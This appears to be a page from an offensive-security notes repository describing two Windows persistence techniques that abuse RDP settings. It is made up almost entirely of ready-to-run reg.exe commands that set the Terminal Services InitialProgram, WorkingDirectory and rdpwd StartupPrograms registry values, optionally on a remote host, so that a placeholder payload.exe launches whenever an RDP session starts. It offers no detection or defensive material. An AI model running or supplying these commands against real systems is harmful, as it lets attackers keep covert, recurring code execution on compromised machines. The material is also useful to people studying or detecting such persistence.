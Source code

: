 # RDP

## TS Initial Program

If it's set to `0x1` then it indicates the RDP is enabled.

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fInheritInitialProgram

C:\> reg.exe query "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v fInheritInitialProgram
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v InitialProgram /d "C:\path\to\payload.exe"

C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_SZ /v InitialProgram /d "C:\path\to\payload.exe"
```

> [!NOTE]
> This is optional.

Set the working directory.

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"

C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"
```

## RDP WDS Startup Programs

```
C:\> reg.exe query "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\StartupPrograms"
```

You can specify multiple values separate with comas (`,`) and **without** spaces.

```
C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\StartupPrograms" /t REG_MULTI_SZ /v <value> /d "C:\path\to\payload_1.exe,C:\path\to\payload_n.exe"
```

---
## References

### Persistence Info

- [Persistence Info: TS Initial Program](https://persistence-info.github.io/Data/tsinitialprogram.html)

- [Persistence Info: RDP WDS Startup Programs](https://persistence-info.github.io/Data/rdpwdstartupprograms.html)